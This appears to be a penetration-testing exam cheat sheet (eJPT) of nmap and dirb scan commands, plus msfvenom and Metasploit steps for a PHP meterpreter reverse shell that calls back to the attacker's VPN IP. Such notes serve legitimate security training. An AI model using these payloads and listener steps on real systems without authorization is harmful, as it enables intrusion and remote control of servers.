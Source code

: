 # Cheat Sheet Commands for eJPT Exam

# Network Mapping

## Network Discovery Scan
```nmap -sn <target IPs/CIDR> -oN discovery.nmap```

## Enumerate live hosts

```nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open``` (practice 3)

# Enumerate Web App directories

```dirb http://targetip```

- Remember to view page source as well!!

# Prep for Reverse Shell 

## msfvenom 

- Possible malware to try on Apache servers 


```msfvenom -p php/meterpreter_reverse_tcp lhost=<VPN ip> lport=53 -o meterpreter.php```

## metasploit listener set up

```use exploit/multi/handler```
```set lhost <VPN IP>```
```set payload php/meterpreter_reverse_tcp```
```set lport 53```
```run```

# After obtaining reverse shell in meterpreter

- Friendlier terminal prompt withing meterpreter
`shell`
`bash -i`
